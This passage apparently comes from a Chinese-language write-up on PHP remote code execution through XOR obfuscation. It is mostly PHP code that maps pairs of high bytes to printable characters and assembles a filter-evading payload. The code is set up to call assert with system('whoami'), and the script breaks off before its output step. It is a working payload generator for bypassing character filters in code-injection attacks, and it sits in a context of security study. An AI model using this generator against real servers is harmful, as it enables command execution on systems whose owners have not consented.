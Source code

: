 ```php
        }
    }
    foreach ($results as $entry) {
        echo $entry['char'] . " : " . $entry['expr'] . "\n";
    }
    return $results;
}

$res = x0r();
var_dump($res);
?>
```

稍加处理，得到最终的异或构造任意rce脚本

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */

# 生成 XOR 对应的可见字符映射
function x0r() {
    $results = [];

    for ($x = 128; $x <= 255; $x++) {
        for ($y = $x; $y <= 255; $y++) {
        # 避免重复计算
            $result = $x ^ $y;
            if ($result >= 32 && $result <= 126) {
                $results[chr($result)] = "'%" . dechex($x) . "'^'%" . dechex($y) . "'";
            }
        }
    }

    return $results;
}

# 将字符替换为 XOR 表达式
function replaceCharWithXor($mapping, $char) {
    return isset($mapping[$char]) ? "(" . $mapping[$char] . ")." : $char;
}

# 拼接整个 payload
function buildPayload($input, $xorMapping) {
    $result = '';
    
    foreach (str_split($input) as $char) {
        $result .= replaceCharWithXor($xorMapping, $char);
    }

   
   # 移除最后一个多余的点
    return rtrim($result, '.');
}

# 生成 XOR 映射
$xorMapping = x0r();

# 构造RCE
$func = "assert";
$param = "system('whoami')";

```